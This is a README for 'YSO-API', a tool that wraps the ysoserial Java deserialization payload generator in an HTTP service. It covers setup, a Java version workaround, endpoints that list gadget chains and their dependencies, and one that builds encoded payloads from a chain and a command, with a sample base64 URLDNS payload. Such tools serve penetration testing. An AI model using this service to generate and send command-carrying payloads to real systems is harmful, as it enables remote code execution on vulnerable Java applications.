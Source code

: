 # YSO-API
### API for ysoserial-all.jar

---

# ysoserial-all.jar
https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar

 

# Install & Launch
```
git clone https://github.com/NinjaGPT/yso-api/ & cd yso-api
pip install -r requirements.txt
wget https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar
python3 yso-api.py
```
default service port is 22222

# ⚠ Reminder
 ```
In Java 9 and later, the module system introduced stricter access control, restricting
reflective access to non-public members. So in the use of ysoserial generated content
will meet InaccessibleObjectException errors
​
Solution:
1. Uses Java 8
If possible, Java 8 can be used to generate the payload, which is not limited by the module system.
​
2. Adjust JVM startup parameters
You can use the JVM startup parameter to open access to the java.net module. This can be done by adding the following parameters:
--add-opens java.base/java.net=ALL-UNNAMED
```

# Usage

## Gain Gadget Chains Supported
```
Path:    http://yso-api-server:22222/yso/chains
Mothod:  GET
Params:  N/A
```
#### Response sample
```
{"gadget_chains":["AspectJWeaver","BeanShell1","C3P0","Click1","Clojure","CommonsBeanutils1",
  "CommonsCollections1","CommonsCollections2","CommonsCollections3","CommonsCollections4",
  "CommonsCollections5","CommonsCollections6","CommonsCollections7","FileUpload1","Groovy1",
  "Hibernate1","Hibernate2","JBossInterceptors1","JRMPClient","JRMPListener","JSON1",
  "JavassistWeld1","Jdk7u21","Jython1","MozillaRhino1","MozillaRhino2","Myfaces1",
  "Myfaces2","ROME","Spring1","Spring2","URLDNS","Vaadin1","Wicket1"]}
```

## Gain Dependencies Of Specific Gadget Chains
```
Path:    http://yso-api-server:22222/yso/deps
Method:  GET
Params:  chain=[chain_name]
```

#### Request sample:
```
http://yso-api-server:22222/yso/deps?chain=Spring1
```

#### Response sample
```
{"Spring1":"spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE"}
```

## Gain dependencies of specific gadget chains
```
Path:    http://localhost:22222/yso/payload
Method:  GET
Params:  chain=[chain_name],  cmd=[command_or_url],  encode=[encoder]

base64 and xxd encoders are supported by default, you can add more what you want.
```
#### Request sample:
```
http://localhost:22222/yso/payload?chain=URLDNS&cmd=http://google.com/&encode=base64
```
#### Response sample:
```
{"payload":"rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmV
zaG9sZHhwP0AAAAAAAAx3CAAAABAAAAABc3IADGphdmEubmV0LlVSTJYlNzYa/ORyAwAHSQAIaGFzaENvZGVJAA
Rwb3J0TAAJYXV0aG9yaXR5dAASTGphdmEvbGFuZy9TdHJpbmc7TAAEZmlsZXEAfgADTAAEaG9zdHEAfgADTAAIc
HJvdG9jb2xxAH4AA0wAA3JlZnEAfgADeHD//////////3QACmdvb2dsZS5jb210AAEvcQB+AAV0AARodHRwcHh0
ABJodHRwOi8vZ29vZ2xlLmNvbS94"}
```
---
## Screenshot
<img width="1019" alt="image" src="https://github.com/user-attachments/assets/72207db7-9e7a-4c43-9865-e7fe9ef83f35">

